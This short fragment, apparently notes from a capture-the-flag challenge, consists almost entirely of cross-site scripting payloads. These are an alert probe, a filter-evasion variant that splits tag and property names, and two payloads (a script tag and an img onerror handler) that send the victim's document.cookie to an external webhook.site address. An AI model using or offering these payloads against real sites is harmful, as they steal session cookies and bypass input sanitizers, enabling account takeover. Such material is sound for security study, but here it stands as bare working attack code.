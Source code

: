 <script>alert(1)</script>

<scrscriptipt>document.locatioonn.href = "/memo?memo=" + document.cookie;</scrscriptipt>

<script>document.location = "https://webhook.site/7208539f-49cd-497e-9b24-c903e4cd2a8a?flag=".concat(document.cookie);</script>

<img src=1 onerror='document.location="https://webhook.site/7208539f-49cd-497e-9b24-c903e4cd2a8a?flag="+document.cookie'/>